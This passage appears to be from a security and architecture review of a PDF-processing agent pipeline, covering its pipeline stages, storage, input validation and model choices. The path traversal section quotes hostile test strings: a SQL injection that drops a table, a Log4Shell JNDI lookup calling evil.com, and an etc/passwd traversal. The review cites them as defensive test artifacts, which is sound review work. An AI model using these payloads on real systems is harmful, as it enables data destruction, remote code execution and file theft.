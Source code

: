 3. **Native PDF Processing**
   - Direct PDF upload via File API
   - No manual image conversion
   - 258 tokens per page
   - Supports up to 1000 pages

4. **Pipeline Architecture**
   - Context → Schedule → Excel → Judge
   - Non-blocking judge evaluation
   - Proper checkpoint management
   - Resilient error handling

5. **Storage Abstraction**
   - LocalStorage for development
   - Interface ready for AWS implementation
   - Consistent across all agents

## 4. Security Architecture Review

### ✅ Security Measures Properly Implemented

1. **Authentication**
   - API key stored in environment variable
   - No hardcoded credentials
   - Proper key validation in BaseAgentV2

2. **Input Validation**
   - PDF validation before processing
   - File size limits (100MB)
   - Content type checking
   - Password-protected PDF handling

3. **Path Traversal Protection**
   - Observed concerning test data in `local_output/`:
     ```
     '; DROP TABLE clients;--/
     ${jndi:ldap://evil.com/a}/
     etc/passwd
     ```
   - These appear to be security test artifacts
   - Recommendation: Verify input sanitization is working

4. **Error Handling**
   - No sensitive data in error messages
   - Proper exception catching
   - Graceful degradation

## 5. Performance Architecture Observations

### ✅ Performance Optimizations Implemented

1. **Model Selection**
   - Flash for cost-sensitive operations (context, Excel)
   - Pro only for complex analysis (schedule extraction)
   - Judge uses Flash (sufficient for evaluation)

